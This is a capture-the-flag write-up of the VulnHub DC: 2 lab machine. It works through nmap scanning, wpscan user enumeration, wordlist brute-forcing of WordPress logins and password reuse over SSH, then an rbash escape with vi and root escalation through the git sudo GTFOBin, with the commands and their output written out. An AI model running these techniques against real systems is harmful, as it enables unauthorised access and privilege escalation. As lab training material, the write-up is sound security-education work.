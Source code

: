 ```yaml
---
title: "VulnHub | DC: 2 - Writeup"
excerpt: Writeup for DC:2 of DC series from VulnHub
date: 2019-07-12 00:00:00
categories: [VulnHub]
---
```


## Information
DC: 2 is the second installment on the VulnHub series *DC* by [DCAU][DCAU]{:target="_blank"}. Similar to DC: 1, there 5 
flags available but flags the first 4 flags are hints on what to do next to capture the subsequent flag. As a result, 
this writeup will only focus on capturing the root flag.

DC: 2 makes the pentester utilize various tools to gather information regarding the users and their credentials on the 
Wordpress blog and then use that information over `SSH`. From there the pentester must escape the `rbash` and then 
escalate privileges to `root` to capture the flag.

## Tasks
- Capture the root flag
 
## Summary
- Use `nmap` to see the services
- Use `wpscan` to find vulnerabilities in the Wordpress installation and to enumerate possible usernames
- Use `cewl` to make a wordlist for `wpscan` brute-force the usernames found in the previous `wpscan`
- Use `vi` and `export PATH` to escape `rbash`
- Use `git`s `GTFOBin` to access escalate privileges to `root`
 
## Walkthrough
### nmap
We start off with a basic `nmap` scan.

```
$ nmap -sC -sV 192.168.2.190
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-generator: WordPress 4.7.10
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: DC-2 &#8211; Just another WordPress site
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 2 services running; `HTTP` on Port 80 and `SSH` on Port 7744.

### Wordpress
Visiting `192.168.2.190` redirects us to `http://dc-2/` and we're greeted with a Wordpress website

![Wordpress - Homepage][Wordpress - Homepage]

There isn't anything of interesting in the website aside `Flag` page but as stated previously, that'll be disregarded. 
As a result, we'll be using `wpscan` to check for vulnerabilities in the system while enumerating for possible usernames.

```
$ wpscan --url http://dc-2/ -e u
[+] URL: http://dc-2/

Interesting Finding(s):

[+] http://dc-2/
[...]

[+] http://dc-2/xmlrpc.php
[...]

[+] http://dc-2/readme.html
[...]

[+] http://dc-2/wp-cron.php
[...]

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
[...]

[+] WordPress theme in use: twentyseventeen
[...]

[+] Enumerating Users (via Passive and Aggressive Methods)

[...]

[i] User(s) Identified:

[+] admin
| Detected By: Rss Generator (Passive Detection)
| Confirmed By:
|  Wp Json Api (Aggressive Detection)
|   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
|  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
|  Login Error Messages (Aggressive Detection)

[+] jerry
| Detected By: Wp Json Api (Aggressive Detection)
|  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
| Confirmed By:
|  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
|  Login Error Messages (Aggressive Detection)

[+] tom
| Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)

[...]
```

`wpscan` found 3 users; `admin`, `jerry` and `tom`. After putting these 3 usernames to `usernames.txt`, we'll use 
`cewl` to generate ourselves a wordlist to use to brute-force these 3 users using `wpscan`. 

```
$ cewl http://dc-2/ -w cewl.txt

$ wpscan --url http://dc-2/ --passwords cewl.txt --usernames usernames.txt
[...]

[i] Valid Combinations Found:
| Username: jerry, Password: adipiscing
| Username: tom, Password: parturient
```

`wpscan` found `jerry`'s password to be `adipiscing` and `tom`'s password to be `parturient`. Logging in to Wordpress 
with these credentials reveals that they're not admins, thus nothing useful can be done with their privileges; like 
editing a page to implement a reverse shell. As a result we'll try these credentials in `SSH`.

### SSH
When attempted to use the same passwords in `SSH` we can login as `tom` but not as `jerry`. By logging in, we're 
placed in a restricted bash (or better known as `rbash`) where we're jailed with limited commands and tools accessible 
to us.

```
$ ssh jerry@192.168.2.190 -p 7744
jerry@192.168.2.190's password:
Permission denied, please try again.

$ ssh tom@192.168.2.190 -p 7744
tom@192.168.2.190's password:

tom@DC-2:~$ cd /tmp
-rbash: cd: restricted

tom@DC-2:~$ echo $SHELL
/bin/rbash
```

To escape `rbash` we'll use `vi`; where we can run scripts and commands to escape the shell.

```
tom@DC-2:~$ vi
::set shell=/bin/sh
::shell

tom@DC-2:~$ cd /tmp

tom@DC-2:~$ pwd
/tmp

tom@DC-2:~$ whoami
/bin/sh: 1: whoami not found
```

Now that we have a less restrictive shell where we can use `/`'s we can spawn a proper shell using the following 
`export PATH` command where it will look for said binary.

```
$ export PATH=/home/Arszilla/.local/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/snap/bin

$ whoami
tom
```

Using [this][GTFOBin]{:target="_blank"} `GTFOBin` we'll exploit `git` allow us to levitate our privileges to `root`. 
But to run that we need to be `sudoer`; which `tom` isn't. As a result we'll attempt to switch users and login as 
`jerry` with the Wordpress password we got earlier and attempt to run the `GTFOBin` again.

```
$ sudo git -p help config
[sudo] password for tom: 
tom is not in the sudoers file. This incident will be reported.

$ su - jerry
Password:

jerry@DC-2:~$ sudo git -p help config
GIT-CONFIG(1)                                 Git Manual                                GIT-CONFIG(1)

NAME
       git-config - Get and set repository or global options

SYNOPSIS
       
       [...]

DESCRIPTION

       [...]

!/bin/sh

# cd /root

# ls -la
-rw-------  1 root root  207 Mar 21 21:42 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  427 Mar 21 19:55 final-flag.txt
-rw-------  1 root root   46 Mar 21 20:09 .lesshst
-rw-------  1 root root  232 Mar 21 17:15 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile

# cat final-flag.txt
 __    __     _ _       _                    _
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___ \/   

Congratulations!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

And by that, we've captured the `root` flag.

[DCAU]:                     https://twitter.com/DCAU7
[Wordpress - Homepage]:     /images/2019-07-12-vulnhub-dc_2/Wordpress%20-%20Homepage.png
[GTFOBin]:                  https://gtfobins.github.io/gtfobins/git/#sudo
